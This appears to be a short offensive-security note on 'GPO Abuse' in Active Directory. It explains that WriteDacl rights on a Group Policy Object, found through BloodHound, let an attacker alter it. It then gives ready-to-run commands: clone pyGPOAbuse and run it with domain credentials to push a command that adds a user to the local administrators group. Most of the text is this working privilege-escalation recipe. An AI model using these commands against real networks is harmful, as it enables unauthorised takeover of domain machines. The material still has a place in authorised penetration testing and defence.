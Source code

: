 **GPO Abuse** is an attack method used in Active Directory environments where an attacker targets Group Policy Objects (GPOs). It works by modifying GPO settings to distribute malicious configurations or scripts, allowing the attacker to gain control over systems or escalate privileges across the network.

In BloodHound, if a user has the `WriteDacl` permission on  a GPO object, they can modify the access controls on that object:

![[Pasted image 20240815224341.png]]

### Linux

```bash
git clone https://github.com/Hackndo/pyGPOAbuse.git
```

```bash
sudo python3 pygpoabuse.py domain.local/username:password -command 'net localgroup administrators usser /add' -gpo-id {object_id}
```

